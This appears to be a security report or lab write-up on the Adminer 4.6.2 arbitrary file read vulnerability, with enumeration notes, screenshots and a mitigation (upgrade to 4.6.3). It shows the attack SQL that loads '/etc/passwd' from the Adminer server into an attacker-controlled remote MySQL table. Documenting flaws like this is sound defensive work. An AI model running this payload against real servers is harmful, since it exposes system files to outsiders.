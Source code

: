 ```yaml
---


---
```


<h1 id="adminer-4.6.2-file-disclosure-vulnerability">Adminer 4.6.2 file disclosure vulnerability</h1>
<h3 id="severity-high">Severity: High</h3>
<h1 id="description">Description</h1>
<p>Adminer is a tool for managing content in MySQL databases. Adminer is distributed under Apache license in a form of a single PHP file. Improper Access Control in Adminer versions upto 4.6.2 allows an attacker to achieve Arbitrary File Read on the server by connecting a remote MySQL database to the Adminer.</p>
<h2 id="affected-url">Affected URL</h2>
<p><a href="http://13.233.168.80:31337/adminer.php">http://13.233.168.80:31337/adminer.php</a></p>
<h2 id="risk-rating">Risk Rating</h2>
<ul>
<li>Severity: High</li>
<li>Difficulty to Exploit: Medium</li>
</ul>
<h2 id="enumeration">Enumeration</h2>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/YTsR4xX/1.jpg" alt="1" border="0"></a></p>
<p>In order to hack into a system, we need to first gather some information about it. For that, I use ZAP tool for the process of enumeration.</p>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/P97mLpp/2.jpg" alt="2" border="0"></a></p>
<p>I discovered that Adminer version 4.6.2 is  running here.</p>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/v1ywhxN/4.jpg" alt="4" border="0"></a></p>
<p>I first set up our own MySQL server to connect to Adminer.</p>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/BVtY11t/5.jpg" alt="5" border="0"></a></p>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/nmzMrMc/6.jpg" alt="6" border="0"></a></p>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/PT68WjD/7.jpg" alt="7" border="0"></a></p>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/ZdhYNvV/8.jpg" alt="8" border="0"></a></p>
<p><a href="https://imgbb.com/"><img src="https://i.ibb.co/pfJ8tF3/10.jpg" alt="10" border="0"></a></p>
<p>I was unable to configure MySQL settings (specifically the ‘bind-address’) to allow remote connections. This is crucial as I need to access the Adminer login page and connect to a remote MySQL database that I (attacker) control. I have included the details of the exploitation process from <a href="https://podalirius.net/en/articles/writing-an-exploit-for-adminer-4.6.2-arbitrary-file-read-vulnerability/">https://podalirius.net/en/articles/writing-an-exploit-for-adminer-4.6.2-arbitrary-file-read-vulnerability/</a>.</p>
<p>In order to exploit this vulnerability, an attacker needs to access the login page of Adminer and connect back to a remote MySQL database he controls:</p>
<p><a href="https://ibb.co/HHgQY49"><img src="https://i.ibb.co/ZMTCKXb/12.jpg" alt="12" border="0"></a></p>
<p>After this, the attacker goes to the “SQL Command” page on the Adminer:</p>
<p><a href="https://ibb.co/t8XDPwQ"><img src="https://i.ibb.co/724KNxj/13.jpg" alt="13" border="0"></a><br>
With the following SQL command, the attacker can read a local file on the Adminer server line and load it into his remote database:</p>
<pre class=" language-sql"><code class="prism  language-sql"><span class="token keyword">LOAD</span> <span class="token keyword">DATA</span> <span class="token keyword">local</span> <span class="token keyword">INFILE</span> <span class="token string">'/etc/passwd'</span> <span class="token keyword">INTO</span> <span class="token keyword">TABLE</span> lfr_sink_table <span class="token keyword">fields</span> <span class="token keyword">TERMINATED BY</span> <span class="token string">"\n"</span><span class="token punctuation">;</span>

</code></pre>
<p><a href="https://ibb.co/TvHJkFz"><img src="https://i.ibb.co/mDHdGMQ/14.jpg" alt="14" border="0"></a></p>
<p>Once this is done, the attacker can view the contents of the read file with  <code>SELECT * FROM lfr_sink_table;</code>:</p>
<p><a href="https://ibb.co/X8vMPbW"><img src="https://i.ibb.co/Zmk7rVf/16.jpg" alt="16" border="0"></a></p>
<h2 id="mitigations">Mitigations</h2>
<p>Upgrade to the latest version of Adminer. This vulnerability was fixed in Adminer version <strong>4.6.3</strong></p>
<h2 id="references">References</h2>
<ul>
<li>
<p>[1] <a href="">https://podalirius.net/en/articles/writing-an-exploit-for-adminer-4.6.2-arbitrary-file-read-vulnerability/</a></p>
</li>
<li>
<p>[2] <a href="">https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/</a></p>
</li>
</ul>

